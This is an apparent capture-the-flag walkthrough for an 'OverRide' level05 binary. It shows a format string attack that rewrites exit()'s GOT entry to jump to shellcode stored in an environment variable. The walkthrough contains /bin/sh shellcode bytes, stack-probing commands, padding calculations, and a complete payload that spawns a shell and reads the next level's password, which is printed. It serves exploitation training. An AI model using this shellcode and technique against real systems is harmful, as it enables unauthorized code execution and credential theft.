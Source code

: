 
# Walkthrough

**Main** : 
The binary reads the input from stdin and prints the same string after transforming the uppercase into lowercase then displaying the buffer with printf  
To exploit this program, we  provide input that enabling us to do a format string attack  that allowing  to replace the exit() address on the GOT  by  ours shell code which will be store in environement variable 
<br/>
The address of the shellcode transformed into the number of characters to print will be written in the 10th and 11th position in the stack and then replaces the address of exit with that of the shell code

**Process to exploit :**
>   1. **Find the needs address**
>   2. **Prepare Payload** 
>  3. **Load payload**


## Step 1

###  Find the needs address

 the idea is to replace the exit() relocation address in the GOT to target our shellcode 
 **Find exit address**
 ```
 gdb level05
disas exit
Dump of assembler code for function exit@plt:
 0x08048370 <+0>:	jmp    *0x80497e0
```

**Export shellcode as environnement variable**
To avoid the shell to be overwrite by the loop in the code i  shellcode as environnement variable

```
export SHELLCODE=`python -c 'print "\x90" * 50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
```
**Find addres of shellcode**
We need to write in the exit GOT address in 2 times, because the address of shellcode in decimal is to big   to write in 1 time
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    printf("%p\n", getenv("SHELLCODE"));
    printf("%s\n", getenv("SHELLCODE"));
}

gcc -m32 addr.c && ./aout
0xffffd88e
```


## Step 2

### Prepare Payload


**Position of the buffer in the stack :**
```
level05@OverRide:~$ (python -c "print 'aaaa' + ' | %x' * 13") | ./level05
aaaa | 64 | f7fcfac0 | f7ec3af9 | ffffd66f | ffffd66e | 0 | ffffffff | ffffd6f4 | f7fdb000 | 61616161 | 25207c20 | 207c2078 | 7c207825
```
We can pass our 2 addresses at the start of our buffer form  $10 and $11 parameter indexes.

**Split address shellcode in decimal :**

  - `0xffffd88e` = `4294957231`
 - `ffff = 65535` 
 - `d88e = 55438`

 **Padding:**
-  55438 - 8 =  55430 ; value of  first padding
- 65535 - 55438 = 10097 ; value of second padding

d896 (55430 for our 2 addresses written before) + ffff (10097 )

**The payload will  be this format :** 

  exit addr 2 first bytes" + "exit addr 2 last bytes" + "%55430d" + "%10$hn" + "%10097d" + "%11$hn"

**Load payload:**
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55430d%10$hn" + "%10097d%11$hn")'; cat) | ./level05
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```
